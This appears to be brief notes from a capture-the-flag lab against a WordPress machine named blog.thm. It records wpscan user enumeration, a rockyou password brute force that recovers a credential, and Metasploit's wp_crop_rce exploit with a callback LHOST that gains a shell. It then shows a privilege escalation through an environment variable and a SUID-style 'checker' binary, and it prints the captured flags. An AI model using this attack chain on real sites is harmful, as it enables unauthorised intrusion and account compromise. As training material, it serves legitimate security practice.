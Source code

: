 <pre>
Enum
    Open ports:
        22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
        80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
        139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu 


80 http port:
    WordPress site!
    Lets enumerate users with wpscan
        wpscan --url http://blog.thm/ --enumerate u
            users:
            kwheel
            bjoel
            Karen Wheeler
            Billy Joel
            
    Lets brute force users for passwords
        wpscan --url http://blog.thm/ --passwords rockyou.txt
            Passwords:
                kwhell:cutiepie1
                

Exploit exploit/multi/http/wp_crop_rce
$ use exploit/multi/http/wp_crop_rce
    set RHOSTS blog.thm
    set USERNAME kwheel
    set PASSWORD cutiepie1
    set LHOST 10.8.129.79
        Exploit!

And we get www-data

Lets priv esv:
    $ export admin=/root
    $ checker
        We got root!

    

Root Flag: 9a0b2b618bef9bfa7ac28c1353d9f318
User Flag: c8421899aae571f7af486492b71a8ab7
        

</pre>
